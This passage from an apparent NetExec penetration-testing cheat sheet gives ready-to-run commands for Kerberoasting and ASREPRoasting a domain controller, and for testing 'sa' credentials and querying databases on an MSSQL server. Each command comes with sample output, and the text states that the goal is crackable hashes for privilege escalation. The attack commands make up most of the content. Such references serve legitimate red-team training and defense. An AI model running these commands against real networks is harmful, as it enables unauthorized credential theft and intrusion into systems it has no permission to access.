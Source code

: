 ### 14. Kerberos Attacks
**Purpose**: Exploit Kerberos for hash extraction (Kerberoasting, ASREPRoast).

**Kerberoasting**:
```bash
nxc ldap 192.168.1.100 -u 'user1' -p 'Password123' --kerberoasting hash.txt
```
**Explanation**:
- Extracts SPN hashes for offline cracking.
- Example output:
  ```
  LDAP        192.168.1.100 389 DC01 [+] example.com\user1:Password123
  LDAP        192.168.1.100 389 DC01 [*] Kerberoasting hashes saved to hash.txt
  ```

**ASREPRoast**:
```bash
nxc ldap 192.168.1.100 -u 'user1' -p 'Password123' --asreproast hash.txt
```
**Explanation**:
- Targets accounts without Kerberos pre-authentication.
- Example output:
  ```
  LDAP        192.168.1.100 389 DC01 [+] example.com\user1:Password123
  LDAP        192.168.1.100 389 DC01 [*] ASREPRoast hashes saved to hash.txt
  ```

**Use Case**: Obtains crackable hashes for privilege escalation.

### 15. MSSQL Enumeration and Exploitation
**Purpose**: Enumerate and exploit Microsoft SQL Server instances.

**Password Spray**:
```bash
nxc mssql 192.168.1.126 -u 'sa' -p 'Password@123' --local-auth
```
**Explanation**:
- Tests credentials on an MSSQL server with local authentication.
- Example output:
  ```
  MSSQL       192.168.1.126 1433 SQL01 [+] sa:Password@123 (local auth)
  ```

**Database Query**:
```bash
nxc mssql 192.168.1.126 -u 'sa' -p 'Password@123' --local-auth -q 'SELECT name FROM master.dbo.sysdatabases;'
```
**Explanation**:
- Lists databases on the MSSQL server.
- Example output:
  ```
  MSSQL       192.168.1.126 1433 SQL01 [+] sa:Password@123 (local auth)
  MSSQL       192.168.1.126 1433 SQL01 [*] Databases: master, tempdb, model, msdb
  ```

